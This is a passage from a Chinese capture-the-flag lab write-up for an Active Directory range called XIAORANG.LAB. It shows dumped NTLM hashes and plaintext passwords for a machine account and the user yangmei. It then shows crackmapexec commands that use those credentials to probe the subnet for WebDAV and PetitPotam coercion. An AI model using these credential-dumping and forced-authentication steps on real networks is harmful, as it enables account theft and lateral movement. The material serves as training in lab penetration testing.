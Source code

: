 ```bash
Username     Domain    NTLM                              SHA1
--------     ------    ----                              ----
XR-DESKTOP$  XIAORANG  3c6b049a1558b32aa6d978cc9abdd9d7  1374473614a90526f728fe8b469329d01c55d6e7
yangmei      XIAORANG  25e42ef4cc0ab6a8ff9e3edbbda91841  6b2838f81b57faed5d860adaf9401b0edb269a6f

wdigest credentials
===================

Username     Domain    Password
--------     ------    --------
(null)       (null)    (null)
XR-DESKTOP$  XIAORANG  d7 17 b7 3e 45 89 1c df 0d b6 c1 ce 72 77 cf 5f 10 94 02 1d e6 bd d6 86 ed 7a 8e c5 97 9d 3b fb a1 0a bc 72 26 fd 6c 4a 0d 2a ab 9a 9d fc 63 c4 13 4f b1 e2 7a 97 dc b8 13 5c d2 be a3 7f 0a 27 a0 a9 2b 80 85 07 76 32 ec da 89 79 01 cb 03 98 8f 4e c0 f1 76 db f5 91 09 ab db 4e 43 f4 49 a0 5b ac 7a c0 7b 82 1b bc 5f 50 2c ef c6 0f 1f 9f f0 fa 62 0d 8e 0b 32 b4 28 c8 45 95 55 82 3b 5d 7b e5 7f 4a 0d 5d 95 15 94 82 61 d4 51 80 8e db 5e 60 29 dd e6 dc bf e7 90 bc dd a0 27 c2 70 78 7c ff 12 6a 5f 7d c9 95 75 78 d1 ba 4b e8 cd a7 f8 3a 7b d0 8a 86 cb 43 88 86 ad b2 33 2e f4 b9 a7 6f 22 d9 50 42 f5 b3 e4 b4 d1 20 b7 07 5c d1 c0 53 a5 9c 64 cf ae b1 fe b6 b5 2f 80 c6 4b 88 9d ca ee b4 97 be 0e 91 74 bb f5 df da cb 07 1d
yangmei      XIAORANG  xrihGHgoNZQ

kerberos credentials
====================

Username     Domain        Password
--------     ------        --------
(null)       (null)        (null)
xr-desktop$  XIAORANG.LAB  d7 17 b7 3e 45 89 1c df 0d b6 c1 ce 72 77 cf 5f 10 94 02 1d e6 bd d6 86 ed 7a 8e c5 97 9d 3b fb a1 0a bc 72 26 fd 6c 4a 0d 2a ab 9a 9d fc 63 c4 13 4f b1 e2 7a 97 dc b8 13 5c d2 be a3 7f 0a 27 a0 a9 2b 80 85 07 76 32 ec da 89 79 01 cb 03 98 8f 4e c0 f1 76 db f5 91 09 ab db 4e 43 f4 49 a0 5b ac 7a c0 7b 82 1b bc 5f 50 2c ef c6 0f 1f 9f f0 fa 62 0d 8e 0b 32 b4 28 c8 45 95 55 82 3b 5d 7b e5 7f 4a 0d 5d 95 15 94 82 61 d4 51 80 8e db 5e 60 29 dd e6 dc bf e7 90 bc dd a0 27 c2 70 78 7c ff 12 6a 5f 7d c9 95 75 78 d1 ba 4b e8 cd a7 f8 3a 7b d0 8a 86 cb 43 88 86 ad b2 33 2e f4 b9 a7 6f 22 d9 50 42 f5 b3 e4 b4 d1 20 b7 07 5c d1 c0 53 a5 9c 64 cf ae b1 fe b6 b5 2f 80 c6 4b 88 9d ca ee b4 97 be 0e 91 74 bb f5 df da cb 07 1d
xr-desktop$  XIAORANG.LAB  (null)
yangmei      XIAORANG.LAB  xrihGHgoNZQ
```

得到两个用户，机器账号`xr-desktop$`和用户`yangmei`。

### 强制认证

靶场提示了`NTLM`，因此用`cme`看下 WebClient 和 petitpotam

```bash
proxychains ./cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M Webdav
proxychains ./cme smb 172.22.11.0/24 -u yangmei -p xrihGHgoNZQ -d xiaorang.lab -M PetitPotam
```

[![](assets/1705989181-efebacc3c5db00bb0f28c5a0b2a7a19e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170048-bc87a4aa-b904-1.png)
